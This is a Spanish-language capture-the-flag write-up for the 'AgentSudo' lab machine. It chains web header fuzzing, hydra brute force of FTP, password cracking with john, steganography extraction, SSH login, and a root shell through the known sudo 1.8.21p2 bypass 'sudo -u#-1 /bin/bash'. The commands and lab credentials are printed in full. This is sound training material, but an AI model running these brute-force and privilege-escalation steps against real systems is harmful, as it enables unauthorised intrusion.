# Write-up AgentSudo

## Enumeracion

### Escaneo inicial

Empiezo haciendo un escaneo completo para ver puertos y servicios:

`nmap -sC -sV -T4 -p- IP`

Puertos encontrados:

- 21/tcp FTP - `vsftpd 3.0.3`
- 22/tcp SSH
- 80/tcp HTTP - Apache



### Enumeracion web

Lanzo una enumeracion basica de directorios:

`gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`

No saco nada especialmente util, asi que paso a revisar la web con mas detalle.

Al entrar en la pagina principal no veo nada claro, asi que uso BurpSuite para jugar con las cabeceras HTTP. Desde la pestana de proxy abro el navegador integrado, entro en la IP de la maquina y reviso el `HTTP History`.

Selecciono una peticion y la mando a Intruder con `Set to Intruder`.



Despues configuro el payload como `simple list` y anado las letras del abecedario en mayusculas para probar distintos valores en la cabecera `User-Agent`.

Marco la posicion del ataque sobre el valor de `User-Agent` y pulso en `Add`.



Al lanzar el ataque veo que la letra `C` devuelve un `length` diferente y, ademas, aparece una cabecera `Location` apuntando a `agent_C_attention.php`.

Accedo a esa ubicacion y encuentro una pista importante: el usuario `chris` tiene una password debil.



Nota: una forma mas directa de descubrir esto habria sido con:

`curl -A "C" -L IP`

## Explotacion

### Fuerza bruta contra FTP

Primero intento fuerza bruta sobre SSH para `chris`, pero no consigo nada. Asi que pruebo contra FTP y esta vez si funciona:

`hydra -l chris -P /usr/share/wordlists/rockyou.txt IP ftp`

Password obtenida para `chris`:

`crystal`



### Acceso por FTP

Con esas credenciales entro al FTP:

`ftp chris@IP`

Dentro encuentro tres archivos y me los descargo con:

`mget *`

Archivos descargados:

- `To_agentJ.txt`
- `cute-alien.jpg`
- `cutie.png`



Nota: si no deja descargarlos por permisos, reiniciar la VM de Kali.

### Analisis de la imagen `cutie.png`

Uso `binwalk` sobre la imagen:

`sudo binwalk -e cutie.png --run-as=root`

Obtengo el directorio:

`_cutie.png.extracted`



Dentro aparecen estos archivos:

- `365`
- `365.zlib`
- `8702.zip`



### Descifrado del ZIP

Para sacar la password del ZIP uso `john`:

`zip2john 8702.zip > 8702.txt`

Si da problemas por permisos:

`sudo sh -c 'zip2john 8702.zip > 8702.txt'`

Despues:

`john 8702.txt`

La password obtenida es:

`alien`




Al abrir el ZIP veo este mensaje:

`We need to send the picture to 'QXJlYTUx' as soon as possible!`



Ese valor estaba en `base64`, y al decodificarlo obtengo:

`Area51`



### Stego en `cute-alien.jpg`

Con la pista anterior pruebo `steghide`:

`steghide extract -sf cute-alien.jpg`

Cuando pide la passphrase introduzco:

`Area51`

Y consigo un mensaje con nuevas credenciales:

- Usuario: `james`
- Password: `hackerrules!`



## Post-explotacion

### Acceso por SSH

Con las credenciales obtenidas me conecto por SSH como `james`.

Una vez dentro, compruebo el contexto y la version de sudo:

`id`

`sudo --version`

## Escalado de privilegios

Veo que la version de sudo es `1.8.21p2`, asi que busco informacion y encuentro un exploit en Exploit-DB:

`https://www.exploit-db.com/exploits/47502`

El vector consiste en ejecutar:

`sudo -u#-1 /bin/bash`

Lanzo el comando y consigo una shell como `root`.



## Resultado

Consigo acceso a la maquina como `root` tras encadenar una pista web basada en `User-Agent`, fuerza bruta al FTP, stego en dos imagenes y un fallo conocido en la version de `sudo`.

## Resumen de comandos hasta root

- `nmap -sC -sV -T4 -p- IP`
- `gobuster dir -u http://IP -w /usr/share/wordlists/dirb/common.txt`
- `curl -A "C" -L IP`
- `hydra -l chris -P /usr/share/wordlists/rockyou.txt IP ftp`
- `ftp chris@IP`
- `mget *`
- `sudo binwalk -e cutie.png --run-as=root`
- `zip2john 8702.zip > 8702.txt`
- `john 8702.txt`
- `steghide extract -sf cute-alien.jpg`
- `ssh james@IP`
- `id`
- `sudo --version`
- `sudo -u#-1 /bin/bash`
